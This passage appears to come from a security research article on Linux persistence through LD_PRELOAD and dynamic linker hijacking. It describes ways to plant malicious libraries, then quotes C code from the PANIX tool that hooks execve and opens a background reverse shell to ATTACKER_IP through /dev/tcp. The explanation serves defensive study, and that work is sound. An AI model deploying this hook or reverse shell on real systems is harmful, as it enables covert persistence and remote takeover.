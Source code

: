 The output shows that `libhack.so` is loaded before any other libraries. Since `/etc/ld.so.preload` affects all dynamically linked executables, the attack impacts every user and application.

Additionally, root access allows for more potential attack vectors, such as:

* Overwriting legitimate libraries in `/lib/`, `/lib64/`, `/usr/lib/`, or `/usr/lib64/` with malicious versions.
* Replacing and or modifying the dynamic linker binary (e.g. `ld-linux-x86-64.so.2`) to introduce backdoors or alter the library resolution process.
* Modifying system-wide configuration files such as `/etc/profile` or `/etc/bash.bashrc` to globally set `LD_PRELOAD` or `LD_LIBRARY_PATH`.

#### Persistence through T1574.006 - Dynamic Linker Hijacking: LD_PRELOAD

Let’s examine how [PANIX](https://github.com/Aegrah/PANIX) leverages the dynamic linker hijacking technique within the [setup_ld_preload.sh](https://github.com/Aegrah/PANIX/blob/main/modules/setup_ld_preload.sh) module. This method relies on the presence of various compilation tools on the host system. PANIX hijacks the execution flow of the `execve` function for a user-specified binary, executing a backgrounded reverse shell whenever the binary is called:

```c
// Function pointer for the original execve
int (*original_execve)(const char *pathname, char *const argv[], char *const envp[]);

// Function to spawn a reverse shell in the background
void spawn_reverse_shell() {
	pid_t pid = fork();
	if (pid == 0) { // Child process
		setsid(); // Start a new session
		char command[256];
		sprintf(command, "/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'", ATTACKER_IP, ATTACKER_PORT);
		execl("/bin/bash", "bash", "-c", command, NULL);
		exit(0); // Exit child process if execl fails
	}
}

// Hooked execve function
int execve(const char *pathname, char *const argv[], char *const envp[]) {
	// Load the original execve function
	if (!original_execve) {
		original_execve = dlsym(RTLD_NEXT, "execve");
		if (!original_execve) {
			exit(1);
		}
	}

	// Check if the executed binary matches the specified binary
	if (strstr(pathname, "$binary") != NULL) {
		// Spawn reverse shell in the background
		spawn_reverse_shell();
	}

	// Call the original execve function
	return original_execve(pathname, argv, envp);
}
```
